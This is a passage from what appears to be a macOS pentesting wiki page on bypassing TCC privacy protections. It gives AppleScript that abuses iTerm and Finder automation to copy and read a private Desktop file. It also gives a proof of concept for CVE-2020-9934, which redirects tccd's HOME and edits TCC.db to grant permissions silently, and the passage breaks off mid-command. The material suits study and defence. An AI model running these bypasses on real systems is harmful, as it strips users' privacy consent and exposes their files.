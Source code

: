 #### Over iTerm

Terminal, who doesn't have FDA, can call iTerm, which has it, and use it to perform actions:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
    activate
    tell current window
        create tab with default profile
    end tell
    tell current session of current window
        write text "cp ~/Desktop/private.txt /tmp"
    end tell
end tell
```
{% endcode %}

```bash
osascript iterm.script
```

#### Over Finder

Or if an App has access over Finder, it could a script such as this one:

```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```

## By App behaviour

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

The userland **tccd daemon** what using the **`HOME`** **env** variable to access the TCC users database from: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

According to [this Stack Exchange post](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) and because the TCC daemon is running via `launchd` within the current user’s domain, it's possible to **control all environment variables** passed to it.\
Thus, an **attacker could set `$HOME` environment** variable in **`launchctl`** to point to a **controlled** **directory**, **restart** the **TCC** daemon, and then **directly modify the TCC database** to give itself **every TCC entitlement available** without ever prompting the end user.\
PoC:

```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"                     
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump                                                               
$> sqlite3 TCC.db "INSERT INTO access
                   VALUES('kTCCServiceSystemPolicyDocumentsFolder',
```